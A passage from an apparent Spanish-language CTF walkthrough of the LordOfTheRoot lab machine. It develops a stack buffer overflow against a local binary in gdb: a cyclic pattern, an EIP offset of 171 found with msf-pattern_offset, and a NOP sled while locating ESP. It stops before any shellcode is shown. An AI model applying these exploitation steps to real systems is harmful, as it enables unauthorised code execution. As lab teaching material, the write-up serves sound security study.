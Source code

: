 ```bash
smeagol@LordOfTheRoot:/SECRET/door2$ gdb -q file
Reading symbols from file...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /SECRET/door2/file Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x41376641 in ?? ()
(gdb)
```

3 - Ya tenemos el valor de *EIP*, usamos <kbd>msf-pattern-offset</kbd> para averiguar la cantidad de caracteres que debemos usar antes que se rompa el programa, pasando en el parámetro `q` el valor de EIP y `-l` la longitud que en este caso son 300 caracteres.

```bash
❯ msf-pattern_offset -q 41376641 -l 300
[*] Exact match at offset 171
```

En este punto, vamos a crear una cadena de 171 "A" y le sumamos 4 "B" para validar si las mismas "B" apuntan al registro EIP. 

La letra "B" en hexa es 42.

```bash
smeagol@LordOfTheRoot:/SECRET/door2$ gdb -q file
Reading symbols from file...(no debugging symbols found)...done.
(gdb) r $(python2 -c 'print "A" * 171 + "B" * 4')
Starting program: /SECRET/door2/file $(python2 -c 'print "A" * 171 + "B" * 4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

Efectivamente, las 4 “B” están en el registro EIP.

4 - En este caso no vamos a poder encontrar el `jmp ESP`, debido a que `ASLR` está activado. Usaremos el valor del registro `ESP`, procedemos a buscarlo añadiendo `NOPS` al final de la cadena.

Para agregar los `NOPS` a la cadena, lo hacemos con: **"\x90"**.

Para filtrar por el registro `ESP` hacemos: *x/s $esp*.

```bash
(gdb) r $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 2000')
`/SECRET/door2/file' has changed; re-reading symbols.
(no debugging symbols found)
Starting program: /SECRET/door2/file $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 2000')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/s $esp
0xbfe19340:     '\220' <repeats 200 times>...
(gdb)
```

